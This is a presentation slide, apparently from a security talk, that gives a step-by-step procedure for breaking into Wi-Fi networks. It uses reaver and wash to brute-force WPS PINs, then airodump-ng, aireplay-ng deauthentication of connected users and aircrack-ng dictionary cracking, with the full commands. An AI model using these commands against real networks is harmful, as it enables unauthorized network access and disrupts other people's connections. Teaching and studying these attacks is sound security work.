

# Attacking WPS IRL
Test for WPS:
Install Reaver + Wash: http://code.google.com/p/reaver-wps/
Put wireless card into monitor mode
wash -i (interface)

WPS enabled
WPS disabled
Put wireless card into monitor mode
reaver -i (interface) -b (bssid)
Wait until it spits out the key

Create or obtain a list of potential passwords
airodump-ng -c (channel) --bssid (bssid) -w psk (interface)
If there’s a user connected (you can tell in the airodump output) disconnect him/her:  aireplay-ng -0 1 -a (bssid) -c (client bssid) (interface)
Wait until a user connects to the network
aircrack-ng -w (password list) -b (bssid) (airodump capture file)